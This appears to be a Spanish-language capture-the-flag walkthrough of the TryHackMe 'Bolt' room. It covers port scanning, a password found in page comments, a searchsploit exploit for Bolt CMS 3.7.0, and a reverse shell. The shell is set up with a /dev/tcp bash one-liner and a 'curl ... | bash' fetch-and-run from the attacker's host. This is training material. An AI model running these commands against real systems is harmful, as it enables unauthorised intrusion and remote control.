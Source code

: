 https://tryhackme.com/r/room/bolt
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.113.97
```
![[Pasted image 20240602022525.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,8000 10.10.113.97
```
![[Pasted image 20240602022643.png]]
## Fuzzing
![[Pasted image 20240602023315.png]]

Password in comments (Hyperealistic)
![[Pasted image 20240602023345.png]]
![[Pasted image 20240602024537.png]]
Nos logueamos con la contraseña vista
![[Pasted image 20240602024626.png]]
## Buscar vulnerabilidades
```
searchsploit bolt 3.7.0
```
![[Pasted image 20240602025525.png]]
# Fase de ataque
Traemos el exploit
```
searchsploit -m php/webapps/48296.py
```
![[Pasted image 20240602025948.png]]
1. Nos ponemos en escucha
```
nc -nlvp 443
```
2. Creamos un archivo.html con la shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.9.0.36/443 0>&1
```
3. Creamos una web para alojar el archivo
```
python3 -m http.server 80
```
4. En el RCE eejuctamos el archivo
```
curl http://10.9.0.36/archivo.html | bash
```
[+] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```

Find flag
```
find / -name flag.txt
```
